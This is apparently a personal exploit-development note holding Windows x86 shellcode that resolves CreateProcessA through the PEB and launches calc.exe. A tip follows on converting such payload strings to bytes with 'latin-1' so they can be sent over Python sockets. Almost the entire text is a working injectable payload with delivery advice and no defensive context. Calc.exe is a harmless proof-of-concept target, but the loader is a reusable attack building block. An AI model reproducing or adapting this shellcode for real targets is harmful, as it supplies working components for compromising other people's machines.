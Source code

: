 ```yaml
---
alias: windowspayload
---
```

Windows calc.exe payload

```bash
"\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"  
"\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"  
"\x77\x20\x8b\x3f\x80\x7e\x0c\x33"  
"\x75\xf2\x89\xc7\x03\x78\x3c\x8b"  
"\x57\x78\x01\xc2\x8b\x7a\x20\x01"  
"\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"  
"\x45\x81\x3e\x43\x72\x65\x61\x75"  
"\xf2\x81\x7e\x08\x6f\x63\x65\x73"  
"\x75\xe9\x8b\x7a\x24\x01\xc7\x66"  
"\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"  
"\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"  
"\xb1\xff\x53\xe2\xfd\x68\x63\x61"  
"\x6c\x63\x89\xe2\x52\x52\x53\x53"  
"\x53\x53\x53\x53\x52\x53\xff\xd7";
```

## Important

> python3 sockets require bytes to be sent and for encoding use 'latin-1' to map the hexvalues to 1to1 onto the ASCII-table

```python
payload = "\x01\x02\x03"
payloadBytes = bytes(payload, 'latin-1')
```

